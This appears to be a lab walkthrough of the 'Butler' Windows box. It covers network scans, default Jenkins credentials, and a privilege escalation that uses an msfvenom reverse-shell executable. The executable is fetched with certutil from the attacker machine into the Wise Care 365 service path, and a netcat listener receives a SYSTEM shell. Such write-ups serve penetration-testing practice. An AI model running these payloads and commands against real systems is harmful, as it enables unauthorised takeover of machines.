



# Butler

IP Address: 10.0.2.80

Determine the IP Address:
```
└─$ sudo arp-scan -l
[sudo] password for kali: 
Interface: eth0, type: EN10MB, MAC: 08:00:27:d1:f8:5d, IPv4: 10.0.2.26
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.1        52:54:00:12:35:00       (Unknown: locally administered)
10.0.2.3        08:00:27:a1:19:d6       (Unknown)
10.0.2.2        52:54:00:12:35:00       (Unknown: locally administered)
10.0.2.80       08:00:27:89:83:57       (Unknown)


```

Nmap done:

```
└─$ nmap -sC -sV 10.0.2.80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-20 10:21 EDT
Nmap scan report for 10.0.2.80 (10.0.2.80)
Host is up (0.00060s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8080/tcp open  http          Jetty 9.4.41.v20210516
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.41.v20210516)
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 08:00:27:89:83:57 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-20T14:21:40
|_  start_date: N/A
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:89:83:57 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.59 seconds

```

Go to http protocol on port 8080



Valid credentials: jenkins:jenkins

Resource: https://www.hackingarticles.in/jenkins-penetration-testing/

https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76



Resourse on winpeas: https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

# Privilege Escalation



```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.26 LPORT=7777 -f exe -o Wise.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: Wise.exe
```

```
C:\Program Files\Jenkins>cd c:\
cd c:\

c:\>cd "Program Files (x86)
cd "Program Files (x86)

c:\Program Files (x86)>cd Wise
cd Wise

c:\Program Files (x86)\Wise>certutil -urlcache -f http://10.0.2.26/Wise.exe Wise.exe
certutil -urlcache -f http://10.0.2.26/Wise.exe Wise.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\Program Files (x86)\Wise>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Program Files (x86)\Wise

09/20/2025  12:55 PM    <DIR>          .
09/20/2025  12:55 PM    <DIR>          ..
08/14/2021  05:34 AM    <DIR>          Wise Care 365
09/20/2025  12:55 PM             7,168 Wise.exe
               1 File(s)          7,168 bytes
               3 Dir(s)  12,913,012,736 bytes free

c:\Program Files (x86)\Wise>sc stop WiseBootAssistant
sc stop WiseBootAssistant

```

```
└─$ nc -nvlp 7777      
listening on [any] 7777 ...
connect to [10.0.2.26] from (UNKNOWN) [10.0.2.80] 49708
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```